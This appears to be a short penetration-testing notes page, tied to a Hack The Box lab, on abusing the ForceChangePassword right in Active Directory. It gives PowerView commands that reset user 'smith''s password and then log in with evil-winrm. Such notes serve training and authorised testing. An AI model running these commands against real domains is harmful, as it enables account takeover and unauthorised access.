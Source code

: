 ### ForceChangePassword

* GenericWrite
*   Allows an attacker to change the password of the object in question.

    * HTB Example: _**Object**_
      * Requires: PowerView.ps1
      * Be sure to upload PowerView.ps1

    How-To:

    ```python
    # On PowerShell or Windows shell:

    . .\\PowerView.ps1

    $newpass = ConvertTo-SecureString 'Password1234!' -AsPlainText -Force

    Set-DomainUserPassword -Identity smith -AccountPassword $newpass

    # On Kali:

    evil-winrm <IP> -u smith -p Password1234!
    ```

    ForceChangePassword

Example:

<figure><img src="../../../.gitbook/assets/Capture (3).PNG" alt=""><figcaption></figcaption></figure>

